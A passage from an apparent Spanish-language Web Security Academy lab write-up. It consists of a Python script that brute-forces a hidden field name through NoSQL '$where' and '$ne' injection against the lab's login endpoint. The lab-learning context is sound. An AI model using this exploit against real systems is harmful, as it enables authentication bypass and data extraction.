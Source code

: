Como `alternativa` podemos usar este `script` en `python`

{% raw %}
```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, sys, string
import json

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "https://0a7c00ce03078e0f81727b64005d00fb.web-security-academy.net/login"

characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(0, 11):
            for character in characters:
                json = {
                    "username": "carlos",
                    "password": {"$ne": "testing"},
                    "$where": "function(){ if(Object.keys(this)[4].match('^.{%d}%s.*')) return 1; else 0; }" % (position, character)
                }

                headers = {
                    "Content-Type": "application/json"
                }

                p1.status(json['$where'])

                r = requests.post(url, headers=headers, json=json)

                if "Account locked: please reset your password" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
{% endraw %}
